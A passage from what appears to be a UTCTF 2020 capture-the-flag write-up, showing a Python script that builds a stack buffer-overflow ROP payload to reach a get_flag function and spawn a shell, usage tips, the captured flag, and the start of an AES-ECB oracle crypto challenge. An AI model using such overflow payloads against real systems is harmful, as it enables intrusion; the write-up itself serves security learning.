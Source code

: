 This is the script I used:

```python
# RazviOverflow
from struct import *

payload = b'A'*112
payload += b'B'*8 # Saved RBP

gadget_addr = 0x00400693 # Gadget address
rdi_canary = 0xdeadbeef # RDI value to pass check
get_flag_addr = 0x004005ea # get_flag address

gadget_addr = pack("<Q", gadget_addr)
rdi_canary = pack("<Q", rdi_canary)
get_flag_addr = pack("<Q", get_flag_addr)

print(payload + gadget_addr + rdi_canary + get_flag_addr)
```

Simply execute the script, redirect the output to a file and use it as input for the binary. 

<p align="center">
  <img src="/images/CTF/UTCTF2020s/bof4.png"/>
</p>

**DO NOT FORGET** about the `(cat input; cat)` trick since you will otherwise not be able to input commands in the spawned shell. You want to cat the contents of input and afterward cat without a parameter so whatever you write gets passed to the remote shell.

The flag is: utflag{thanks_for_the_string_!!!!!!}

# Cryptography
## Random ECB

<p align="center">
  <img src="/images/CTF/UTCTF2020s/ecb0.png"/>
</p>

The code of the provided file `server.py` is the following one:
```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from Crypto.Random import get_random_bytes
from Crypto.Random.random import getrandbits
from secret import flag

KEY = get_random_bytes(16)

def aes_ecb_encrypt(plaintext, key):
    cipher = AES.new(key, AES.MODE_ECB)
    return cipher.encrypt(plaintext)


def encryption_oracle(plaintext):
    b = getrandbits(1)
    plaintext = pad((b'A' * b) + plaintext + flag, 16)
    return aes_ecb_encrypt(plaintext, KEY).hex()


if __name__ == '__main__':
    while True:
        print("Input a string to encrypt (input 'q' to quit):")
        user_input = input()
```